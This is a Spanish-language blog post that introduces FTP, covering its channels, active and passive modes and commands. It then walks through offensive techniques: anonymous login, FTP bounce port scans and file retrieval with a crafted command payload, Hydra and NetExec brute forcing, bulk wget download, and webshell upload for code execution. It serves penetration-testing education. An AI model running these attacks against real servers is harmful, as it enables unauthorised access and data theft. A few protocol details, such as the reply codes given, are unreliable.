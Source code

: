 ```yaml
---
title: "Intro to FTP"
summary: "This is a brief summary of the post."
date: 2024-07-24
tag: FTP
---
```


El protocolo FTP (File Transfer Protocol) es un protocolo usado para la transferencia de archivos entre ordenadores en red, este protocolo presenta arquitectura cliente-servidor usándose un servidor para servir archivos que pueden ser accesados por N clientes. Por defecto, la información se transmite en texto plano, aunque existe una versión cifrada del mismo llamada SFTP (Secure File Transfer Protocol).

<!-- more -->

Si bien existen implementaciones con interfaz gráfica, en este artículo haremos uso de la herramienta de línea de comandos de FTP, la cual nos da bastante flexibilidad a la hora de trabajar con el protocolo. En artículos posteriores exploraremos las principales implementaciones de cliente y servidor, aunque en este nos centraremos en explicar los conceptos básicos del protocolo, como trabajar con él y como aprovechar algunas malas configuraciones.


## Teoria

### Canales de comunicación

Para el funcionamiento de FTP se requieren de dos canales de comunicación, uno para el envío de comandos y otro para los datos.

### Modos de conexión

#### Activo

Es el modo de conexión predeterminado para las conexiones FTP, en él ocurren dos eventos:

- Se establece un canal de comandos en la conexión con el servidor entre el puerto de comandos del servidor (21 por defecto) y un puerto superior a 1023 en el lado cliente (nos referiremos a este como P).
- Una vez establecida la conexión de datos se intenta abrir una conexión desde el puerto de datos del servidor (20 por defecto) al puerto P+1 del cliente.

!!! note

    El modo activo puede presentar problemas con los firewalls del cliente debido a que intenta crear una conexión directa a un puerto del lado cliente, lo cual puede ser bloqueado por ciertos firewalls.


#### Pasivo

Este modo surge como solución al problema de los firewalls del cliente, aquí se modifica el flujo de trabajo de modo que tanto la conexión de datos como la conexión del cliente se inician desde el cliente, podemos desglosarlo en dos eventos.

- Se establece un canal de comandos en la conexión con el servidor entre el puerto de comandos del servidor (21 por defecto) y un puerto superior a 1023 en el lado cliente (nos referiremos a este como P).
- Una vez establecida la conexión de datos se abre una conexión de datos desde el puerto P+1 del cliente a un puerto del canal de datos del servidor, este proceso se repite para cada transferencia de archivos ocupando un puerto distinto del servidor en cada conexión (esto puede ser configurado en la mayoría de los software del lado servidor) .

<aside>
💡 El modo pasivo requiere de la apertura de un rango de puertos en el firewall, esto puede generar algunos problemas de seguridad si esta apertura de puertos no se configura de manera correcta.

</aside>

## Comandos FTP

```bash
CWD  -> Cambia el directorio actual por el especificado
DELE -> Elimina el archivo especificado
EPRT -> Establecer un socket para la conexión de datos
LIST -> Lista los archivos en el directorio actual
PASV -> Cambia el modo a pasivo
PWD  -> Muestra el directorio actual 
RETR -> Descarga el archivo especificado
```

## Anonymous login

Existe una configuración de FTP que permite el uso de un login para compartir ficheros para cualquier usuario que lo requiera, en caso de que esta configuración este habilitada un usuario podría usar anonymous como nombre de inicio de sesión y cualquier contraseña acceder al servidor como un usuario con bajos privilegios, aunque en ciertos casos esto puede llevar a comprometer el sistema entero.

## FTP Bounce port scan

Es posible abusar de los comandos PORT y ERPT para realizar un escaneo de puertos abiertos mediante un servidor FTP.

### Nmap

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
```

### Hand-made

Una vez conectado podemos realizar el escaneo de puertos mediante los comandos PORT y ERPT seguidos de un comando LIST .

Aquí tenemos un ejemplo para escanear el puerto 9091 del host 10.10.10.14

```bash
PORT 10,10,10,14,0,9091
EPRT |2|10.10.10.14|9091|

LIST
```

Si la respuesta es un 150 el puerto está abierto, en caso de recibir un 415 el puerto está cerrado.

## FTP Bounce file get

Este ataque permite a un atacante descargar ficheros de un servidor FTP no accesible por el atacante, pero al que sí puede llegar un servidor FTP accesible por el atacante

![Net Diagram](/assets/net_diagram.png)

Este ataque tiene los siguientes prerequisitos:

- Credenciales válidas para External FTP.
- Credenciales válidas para Internal FTP.
- Acceso de escritura para External FTP.
- Permisos de ejecución del comando PORT tanto en External como en Internal.

Primero que nada desplegaremos un servidor FTP en la máquina del atacante, este servidor tiene que soportar el modo pasivo.

Una vez desplegado abriremos una conexión pasiva con el comando PASV y le diremos que la guarde con STOR output.ext .

Ahora crearemos un archivo con los comandos que queremos lanzar contra el segundo servidor, un ejemplo seria el siguiente:

```bash
user ftp   # Usuario para el servidor internal
pass password # Password para el servidor internal
cwd /DIRECTORY
type i
port F,F,F,F,X,X  #Nuestro puerto pasivo
retr file.ext
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
```

Ahora lo subimos con PUT y desde el servidor externo ejecutamos los siguientes comandos:

```bash
put payload
quote "port C,C,C,C,0,21" # IP del servidor interno
quote "retr payload"
```

Tras esto tendremos el archivo file.ext en nuestro servidor como output.ext

## Ataque por fuerza bruta

Muchos de los servidores FTP no presentan protección contra ataques por fuerza bruta. Teniendo un usuario o una lista de ellos podemos llevar a cabo un ataque de fuerza bruta con diferentes credenciales obtenidas de diversas fuentes, si bien existen varias herramientas para este fin, las dos más comunes son NetExec e Hydra. 

### NetExec

```bash
nxc ftp IP -u userfile -p passwordfile
```

### Hydra

```bash
hydra -L userfile -P passwordfile ftp://IP
```

## Backup sorpresa

Esto no es un ataque per se, pero es bastante útil, ya que nos permite descargar todos los archivos accesibles del servidor mediante un solo comando.

```bash
wget -r ftp://IP/dir/* --ftp-user=username --ftp-password=password
```

## FTP file upload to RCE

En determinadas circunstancias, el permiso para subir ficheros al servidor junto a otras malas configuraciones puede llevar a la obtención de ejecución remota de comandos en el servidor.

El caso más común es la posibilidad de subir ficheros que van a ser luego servidos por un servidor web, donde podríamos subir una webshell interpretable por el servidor para lograr obtener ejecución de comandos.

## Sniffing credentials

Dado que FTP funciona por defecto en texto plano, es posible para un atacante en la misma red usar un sniffer y capturar tanto las credenciales como la conversación FTP.

---

En el próximo artículo de esta serie sobre FTP hablaremos sobre fallos comunes de implementación y algunas vulnerabilidades conocidas de algunas implementaciones del protocolo.